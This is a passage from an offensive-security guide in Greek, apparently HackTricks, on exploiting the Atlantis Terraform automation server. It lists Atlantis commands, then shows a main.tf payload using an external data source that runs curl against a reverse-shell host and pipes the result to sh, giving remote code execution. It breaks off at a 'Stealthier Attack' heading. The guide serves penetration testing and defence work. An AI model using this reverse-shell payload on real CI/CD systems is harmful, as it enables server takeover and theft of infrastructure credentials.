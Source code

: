 [**Στα έγγραφα**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) μπορείτε να βρείτε τις επιλογές που μπορείτε να χρησιμοποιήσετε για να εκτελέσετε το Atlantis:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
### Επιθέσεις

{% hint style="warning" %}
Εάν κατά τη διάρκεια της εκμετάλλευσης βρείτε αυτό το **σφάλμα**: `Error: Error acquiring the state lock`

Μπορείτε να το διορθώσετε εκτελώντας:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

#### Atlantis plan RCE - Τροποποίηση ρυθμίσεων σε νέο PR

Αν έχετε δικαιώματα εγγραφής σε ένα αποθετήριο, θα μπορείτε να δημιουργήσετε ένα νέο κλάδο σε αυτό και να δημιουργήσετε ένα PR. Αν μπορείτε να **εκτελέσετε `atlantis plan`** (ή ίσως εκτελείται αυτόματα) **θα μπορείτε να κάνετε RCE μέσα στον διακομιστή Atlantis**.

Μπορείτε να το κάνετε αυτό κάνοντάς [**το Atlantis να φορτώσει μια εξωτερική πηγή δεδομένων**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Απλά τοποθετήστε ένα payload όπως το παρακάτω στο αρχείο `main.tf`:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
**Stealthier Attack**

You can perform this attack even in a **stealthier way**, by following this suggestions:
